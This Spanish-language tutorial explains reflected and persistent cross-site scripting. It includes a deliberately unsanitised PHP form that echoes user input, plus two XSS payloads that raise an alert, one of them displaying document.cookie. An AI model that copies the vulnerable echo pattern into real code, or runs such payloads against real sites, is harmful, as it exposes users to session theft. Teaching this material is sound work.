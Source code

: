 # Ataques XSS - Cross-Site Scripting
XSS ocurre cuando un atacante es capaz de inyectar un script, normalmente Javascript, en el output de una aplicación web de forma que se ejecuta en el navegador del cliente. Los ataques se producen principalmente por validar incorrectamente datos de usuario, y se suelen inyectar mediante un formulario web o mediante un enlace alterado.

Con XSS se puede ejecutar cualquier código Javascript en el navegador de un usuario. Algunos de los objetivos que se quieren conseguir con ataques XSS son:
- Robar cookies y sesiones de usuarios.
- Modificar el sitio web.
- Realizar HTTP requests con la sesión del usuario.
- Redireccionar a usuarios a sitios dañinos.
- Atacar al navegador.
- Instalar malware.
- Reescribir o manipular extensiones de navegador.
- etc.

## Tipos de ataques XSS
Los ataques Cross-Site Scripting pueden agruparse en dos grandes categorías, dependiendo de cómo envían el código malicioso:
- Non-persistent XSS o Reflected XSS: No almacenan el código malicioso en el servidor sino que lo pasan y presentan directamente a la víctima. Es el método más popular de ataque XSS. El ataque se lanza desde una fuente externa,
mediante email o un sitio de terceros.

- Persistent XSS: El código malicioso ya ha superado la barrera del proceso de validación y está almacenado en un almacén de datos. Puede ser un comentario, un archivo log, un mensaje de notificación, o cualquier otro tipo de sección del sitio web que solicita algún input al usuario. Cuando esta información en particular se presenta en el sitio web, el código malicioso se ejecuta.

# Ejemplo de injección xss para mostrar el mensaje Hola mundo
Usaremos un formulario sin sanear para injectar código javascript haciendo que muestre un mensaje:
```
<html>
<head></head>
<body>

<form action="" method="get">
Introduce Nombre
<input type="text" name="nombre">
<input type="submit">
</form>

<?php 
if (isset($_GET["nombre"]))
 echo "Hola ".$_GET["nombre"];
?>

</body>

</html>
```
Introducimos el código javascript para realizar el ataque XSS:
```
<script>alert("Hola mundo")</script>
```
Veremos que como resultado se muestra una ventana emergente con el mensaje Hola Mundo. Esto implica que este mini web puede ser afectada por un ataque XSS.
![](capturas/xss-reflejado-0.png)

Si habilitamos las herramientas de desarrollador de Chrome, vemos que el código está insertado en la página web, **el código está reflejado en el servidor**, **es por ello que se llama XSS Reflejado**. Ocurre cuando **la entrada del usuario se muestra en la página después de ser procesada por el servidor (back-end), pero sin ser almacenada.**

![](capturas/xss-reflejado.png)


# Ejemplo de injección xss para mostrar una cookie de un usuario
Usaremos un formulario sin sanear para injectar código javascript haciendo que se muestre la cookie de un usuario:
```
<html>
<head></head>
<body>

<form action="" method="get">
Introduce Nombre
<input type="text" name="nombre">
<input type="submit">
</form>

<?php 
if (isset($_GET["nombre"]))
 echo "Hola ".$_GET["nombre"];
?>

</body>

<script>
   document.cookie = "user=Sonia"
</script>
</html>
```
Introducimos el código javascript para realizar el ataque XSS:
```
<script>alert(document.cookie)</script>
```
